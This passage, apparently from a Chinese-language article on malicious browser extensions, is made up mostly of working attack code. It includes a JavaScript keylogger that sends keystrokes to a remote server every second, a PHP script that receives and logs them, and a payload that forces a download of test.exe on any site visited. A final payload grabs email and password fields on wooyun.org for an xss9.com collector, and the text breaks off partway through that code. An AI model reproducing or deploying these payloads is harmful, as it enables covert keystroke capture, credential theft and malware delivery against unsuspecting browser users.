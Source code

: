 ```
    window.setInterval(function(){
      new Image().src = server+gate+keys;
      keys = '';
    }, 1000);        
    });

```

接收php文件如下，将此文件命名为data.php置于服务器上：

```
<?php
$txt = $_GET['data'];
$log = fopen("keylog.txt", "a") or die("Unable to open file!");
fwrite($log, $txt);
fclose($log);
?>

```

> 需要在服务器上建立keylog.txt,然后给777权限就可以了

加载插件以后，键盘记录启动，当用户在网页中进行键盘输入时，输入数据会发送到远程服务器。

![Alt text](http://drops.javaweb.org/uploads/images/bc47e95d8a9f785b65da2804a1fc45965013624b.jpg)

### 3、ForceDownload

强制下载文件Payload如下，此payload即安装插件以后，访问任意网站强制下载程序：

```
$(document).ready(function()
{
    var server = "http://server.com/"; //服务器
    var gate = "/test/test.exe"; //要下载的文件
    var tabURL = window.location.href;

    var link = document.createElement('a');
link.href = server+gate;
link.download = '';
document.body.appendChild(link);
link.click();    
    });

```

### 4、Get Wooyun Password

以下Payload 用于获取登陆wooyun的账号密码。

```
$(document).ready(function()
{
    var server = "http://xss9.com/"; //发送地址
    var gate = "index.php?do=api&id=xxxxx"; //接收参数
    var tabURL = window.location.href;

        if(tabURL.indexOf('wooyun.org') !== -1 )
    {
        wooyun();
    }

    function email()
    {
        var email = document.getElementsByName('email')[0].value;
        var password = document.getElementsByName('password')[0].value;
        var data = "&username="+email+"&password="+password;
```